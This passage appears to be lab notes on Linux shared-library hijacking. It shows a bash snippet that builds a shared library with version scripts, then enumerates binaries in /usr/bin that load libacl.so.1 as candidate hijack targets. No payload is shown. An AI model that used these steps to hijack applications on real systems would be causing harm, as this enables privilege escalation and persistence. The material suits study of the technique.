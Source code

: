 ```bash
# Create the shared library
map_files=$(ls ${VERSION_SCRIPT_BASE}_*.map 2>/dev/null)
if [[ -n $map_files ]]; then
    echo "Linking with version scripts: $map_files"
    gcc -shared -Wl,$(for map in $map_files; do echo -n "--version-script=$map,"; done | sed 's/,$//') -o $OUTPUT_LIB mylib.o
else
    gcc -shared -o $OUTPUT_LIB mylib.o
fi

# Clean up object file
rm mylib.o

echo "Shared library created: $OUTPUT_LIB"

```

#### Try and find a .so file to use to hijack an application other than top

-  enumerate `/lib/x86_64-linux-gnu/libacl.so.1`
```bash
bash search.sh /lib/x86_64-linux-gnu/libacl.so.1 /usr/bin
Searching for binaries that use /lib/x86_64-linux-gnu/libacl.so.1 in /usr/bin...
Found: /usr/bin/smbclient
Found: /usr/bin/systemd-resolve
Found: /usr/bin/net
Found: /usr/bin/systemd-analyze
Found: /usr/bin/systemd-cgtop
Found: /usr/bin/systemd-path
Found: /usr/bin/systemd-socket-activate
Found: /usr/bin/busctl
Found: /usr/bin/systemd-delta
Found: /usr/bin/vim.tiny
Found: /usr/bin/install
Found: /usr/bin/systemd-stdio-bridge
Found: /usr/bin/hostnamectl
Found: /usr/bin/systemd-cat
Found: /usr/bin/systemd-mount
Found: /usr/bin/rsync
Found: /usr/bin/systemd-run
Found: /usr/bin/systemd-detect-virt
Found: /usr/bin/systemd-cgls
Found: /usr/bin/localectl
Found: /usr/bin/timedatectl
Found: /usr/bin/bootctl
```